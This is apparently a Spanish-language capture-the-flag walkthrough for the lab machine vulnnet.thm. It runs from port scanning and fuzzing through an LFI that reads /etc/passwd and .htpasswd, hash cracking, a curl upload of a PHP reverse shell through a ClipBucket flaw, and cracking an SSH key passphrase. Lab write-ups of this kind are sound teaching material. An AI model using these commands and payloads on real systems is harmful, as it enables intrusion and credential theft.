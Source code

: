 
# SCAN+
```
PORT   STATE SERVICE VERSION                                                                                                                                 
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
# WEB ENUM

## DIRECTORIES

Utilizando gobuster para buscar directorios encontramos los directorios comunes:
```
gobuster dir -u vulnnet.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vulnnet.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/12 11:54:42 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/css/]
/js                   (Status: 301) [Size: 307] [--> http://vulnnet.thm/js/] 
/img                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/img/]
/fonts                (Status: 301) [Size: 310] [--> http://vulnnet.thm/fonts/]
                                                                               
===============================================================
2022/08/12 11:56:03 Finished
===============================================================

```
## SUBDOMAINS

```
gobuster vhost -u vulnnet.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 40
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://vulnnet.thm
[+] Method:       GET
[+] Threads:      40
[+] Wordlist:     /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/08/12 11:50:33 Starting gobuster in VHOST enumeration mode
===============================================================
Found: gc._msdcs.vulnnet.thm (Status: 400) [Size: 424]
Found: broadcast.vulnnet.thm (Status: 401) [Size: 468]
Found: _domainkey.vulnnet.thm (Status: 400) [Size: 424]
                                                       
===============================================================
2022/08/12 11:50:59 Finished
===============================================================

```
Buscando subdominios (virtual hosts) tambien mediante gobuster encontramos el subdominio 

## PARAMETROS URL

Podemos utilizar wfuzz para buscar parametros para un posible ataque LFI
```
wfuzz -u vulnnet.thm/index.php?FUZZ=/etc/passwd  -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -c --hw 462
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://vulnnet.thm/index.php?FUZZ=/etc/passwd
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000003464:   200        174 L    514 W      7660 Ch     "referer"                                                                                   

Total time: 25.48573
Processed Requests: 4712
Filtered Requests: 4711
Requests/sec.: 184.8877
```
eliminando los paquetes de tamaño 462 W eliminamos los falsos positivos. Luego hemos encontrado una puerta de entrada para un posible
ataque del tipo LFI
> vulnnet.thm/index.php?referer=

# LFI EXPLOIT
Explotando la vulnerabilidad anterior podemos ver en 
> vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd, el siguiente hash:
> developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
explicacion: Apache se puede confirgurar para que un sitio, un subdominio o un directorio tengan acceso restringido solo a algunos usuarios. Para esto hay que configurarlos. La configuración se realiza en varios pasos:
1. Se crea un archivo que por convención se llama .htpasswd (aunque en realidad se puede llamar de cualquier manera) donde se guardan las credenciales en forma:
- username: password
El username va en texto plano y el password en una variante de MD5 llamada crypt propia de apache. Cada credencial esta en una linea. Este fichero se
puede crear "a mano" con un editor de texto, pero es mejor hacerlo con una aplicacion especifica (htpasswd) y es mejor guardarlo en un lugar que no sea accesible desde la web. 
2. Una vez que se ha creado el fichero .htpasswd, debe configurarse el sitio correspondiente que se encuentra en /etc/apache2/sites-available/fichero de la siguiente manera:
```
<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html/broadcast
  ServerName broadcast.vulnnet.thm
  <Directory "/var/www/html/broadcast">
        AuthType Basic  # Typo de autenticacion. En este caso Basic
        AuthName "broadcast area"
        AuthUserFile /etc/apache2/.htpasswd  # path al fichero donde estan las acreditaciones
        Requiere valid-user
  </Directory>
</Virtualhost>
```

##JtR
> developers:9972761drmfsls

# CVE
Entramos en una pagina donde hay una aplicacion llamada **ClipBucket** que es una aplicacion que nos permite subir fotos y videos tipo youtube
Vemos que para la version 4.0 hay una vulnerabilidad que nos permite RCE, file upload e incluso sqlinjection:
![image](https://user-images.githubusercontent.com/70599089/184412628-ba9e86d3-3021-401a-8dcb-38c032fa0861.png)

Optamos por un file upload utilizando un payload tipo pentestmonkey en curl
> curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:9972761drmfsls

Con esto conseguimos un reverse-shell para el usuario www-data

## ESCALADA DE PRIVILEGIOS
Utilizando linpeas.sh vemos que existen dos posibles vectores:
1. Nos permite leer un fichero /var/backups/ssh-backup.tar.gz
2. cron job para root

### /var/backups/ssh-backup.tar.gz
Podemos descomprimier este fichero en un directorio que nos permita tambien escribir (como /tmp) ya que necesitamos tambien permiso de escritura
(descomprimir es leer y escribir). Descomprimiendo el fichero, obtenemos un fichero llamado **id_rsa** que es una clave privada. 
Probamos a registrarnos en ssh como el usuario server-management y nos pide un passphrase. Intentamos desencriptar y cracker la clave privada con
ssh2john para obtener un hash a partir de la clave privada y luego intentamos crackear el hash con JtR y obtenemos el siguiente:
> oneTWO3gOyac

que pudiera ser el passphrase que estamos buscando

